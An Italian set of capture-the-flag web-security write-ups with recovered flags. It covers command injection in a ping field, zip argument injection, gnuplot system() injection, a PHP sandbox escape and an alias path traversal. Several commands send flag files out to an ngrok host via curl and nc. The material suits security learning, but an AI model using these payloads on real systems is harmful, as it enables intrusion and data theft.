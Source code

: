 # Web Security
## Basic RCE
Usare ngrok, farlo partire ./ngok http 5000
Sul ping utilizzare le variabili di ambiente e scrivere:
```bash
google.com; curl${IFS}-F${IFS}'flag=@/flag.txt'${IFS}http://8ca2d7c8.ngrok.io
```
Prima di pingare far partire `nc -lvp 5000` per aprire la porta poi premere su ping, ed appare la flag su nc.

## PHPislovePHPislife
```php
}; print ${$strings{4}} ?>  // CCIT{Wh4t_Ar3_You_Do1ng_ou7_of_My_Sandb0x}
```

## Zip Zap lvl 2
Creare due file:
```bash
touch -- -T
touch -- -TT
```
Creare l'exploit, chiamato ex.sh che contiene:
```bash
#!/bin/bash
../../../../getflag | nc tcp.ngrok.io porta
```
Si avranno ora 3 file: `-T, -TT, ex.sh`
Creare un altro file:
```bash
touch "bash ex.sh"
```
Che invoca il file ad eseguirlo.

Zippare tutto con: `zip -- *`
Aprire la porta con cui si è fatto partire ngrok.
Mandare lo zip al server, dovrebbe dare internal server error, e la flag appare su nc -> `CCIT{N0t_en0ugh_Quot3s}`


## Plotty Boy
Si applica una concatenzazione di comandi separati da ';'.
```gnuplot
sin(x); system "ngrok ...".
```
nc aperto sempre sulla porta di ngrok ed appare la flag -> `CCIT{Pl0ttyb01_4_A_sin3Boy}`.


## 302Camo
Pubblicare un post, [img]ngrok ...[/img]
Tenere ngrok attivo e nc -lvp 5000 (porta con cui abbiamo startato ngrok).
Fare un curl di url -> ispezione immagine di camo -> mettere \ dopo = e & ed appare la flag `CCIT{PHP_s0met1ms_1ts_funn1}`


## Not a Bug. It's a Feature
Se si vede il sorgente la flag si trova su app.py, ma possiamo accedere solo a static dal file .conf, che è un alias.
Se faccioamo static/../app.py (cercando di retrocedere di una cartella) non va, con static../app.py appare la flag `CCIT{put_4_sl4sh_1n_th0s3_ali4s3s!}`.
